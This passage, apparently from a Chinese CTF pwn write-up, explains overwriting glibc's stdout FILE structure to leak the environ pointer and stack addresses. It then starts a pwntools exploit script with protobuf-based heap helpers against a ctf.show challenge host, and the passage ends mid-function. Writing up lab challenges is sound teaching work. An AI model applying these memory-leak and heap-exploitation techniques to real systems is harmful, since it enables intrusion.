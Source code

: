 ```c
#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```
我们将stdout修改成这样
```python
payload2 = p64(0xFBAD1800)+p64(0)*3+p64(environ)+p64(environ+8)
```
0xFBAD1800是_IO_MAGIC，由libc定义，大部分都是这个值
我们将_IO_write_base修改为environ，将_IO_write_ptr改为environ+8
之后便会泄露environ的值

### environ
environ是个由libc定义的全局变量，定义为`char **environ`，用于存放程序的环境变量
而它存放的指针通常是栈上的，所以可以利用它来泄露栈上的值

### exp
```python
from pwn import *
import heybro_pb2

#p = process("./pwn")
p = remote("pwn.challenge.ctf.show",28127)
elf = ELF("./pwn")
remote_libc = ELF("./libc.so.6")
local_libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = remote_libc

context.log_level = 'debug'
#context.terminal = ['tmux','splitw','-h']

def create(idx,content):
    data = heybro_pb2.heybro()
    data.whattodo = 1
    data.whatcon = content
    data.whatidx = idx
    data.whatsize = 0
    data.whatsthis = 0
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def delete(idx):
    data = heybro_pb2.heybro()
    data.whattodo = 2
    data.whatcon = b'0'
    data.whatidx = idx
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def show(idx):
    data = heybro_pb2.heybro()
```